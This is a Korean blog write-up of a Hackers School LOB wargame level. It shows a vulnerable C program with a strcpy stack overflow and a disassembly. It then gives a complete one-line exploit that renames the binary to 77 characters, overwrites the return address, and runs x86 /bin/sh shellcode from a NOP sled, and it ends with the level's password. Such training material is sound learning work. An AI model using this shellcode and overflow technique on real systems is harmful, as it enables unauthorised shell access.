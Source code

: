 ```yaml
---
date: '2022-10-17'
before : '2022-10-16'
after : '2022-10-18'
title: '시스템 해킹(22) : FTZ LOB LEVEL 7'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 얼마든지 NOP SLED로 풀이가 가능했다.

### 1. Level 7 : Darkelf -> Orge

이번 문제는 코드가 조금 특이하다. 확인해보자
```

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
다른 코드는 저번과 똑같은데, strlen(argv[0]) != 77라는 조건문이 생겼다. argv[0]? 매개변수는 argv[1]부터 시작인데?


**그렇다, 파일 이름이 0번째 매개변수이다. 따라서 우리는 파일 이름을 75글자로 바꿔줘야 한다(./가 붙으니 2바이트는 채워진다.)**


파일 이름을 바꾸는 법은 간단하니 넘어가고, 나머지 풀이과정은 전 문제와 동일하다. 어셈블리 코드 : 
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048690
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048526 <main+38>:    mov    %edx,DWORD PTR [%eax]
0x8048528 <main+40>:    push   %edx
0x8048529 <main+41>:    call   0x80483f0 <strlen>
0x804852e <main+46>:    add    %esp,4
0x8048531 <main+49>:    mov    %eax,%eax
0x8048533 <main+51>:    cmp    %eax,77
0x8048536 <main+54>:    je     0x8048550 <main+80>
0x8048538 <main+56>:    push   0x804869c
0x804853d <main+61>:    call   0x8048410 <printf>
0x8048542 <main+66>:    add    %esp,4
0x8048545 <main+69>:    push   0
0x8048547 <main+71>:    call   0x8048420 <exit>
0x804854c <main+76>:    add    %esp,4
0x804854f <main+79>:    nop
0x8048550 <main+80>:    nop
0x8048551 <main+81>:    mov    DWORD PTR [%ebp-44],0x0
0x8048558 <main+88>:    mov    %eax,DWORD PTR [%ebp-44]
0x804855b <main+91>:    lea    %edx,[%eax*4]
...생략
```
ebp-44이니 더미 44개 + 리턴주소 4바이트로 대략적인 두 번째 매개변수의 주소를 리턴으로 넘겨줘 NOP SLED로 쉘코드를 실행시킨다.


익스플로잇 : 
```
./`python -c 'print "A"*75'` `python -c 'print "A"*44+"\x98\xfb\xff\xbf"'` `python -c 'print "\x90"*100 + "\x90"*100+"\x90"*150+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : timewalker

 ---
## Source

- 해커스쿨 FTZ
- Me!
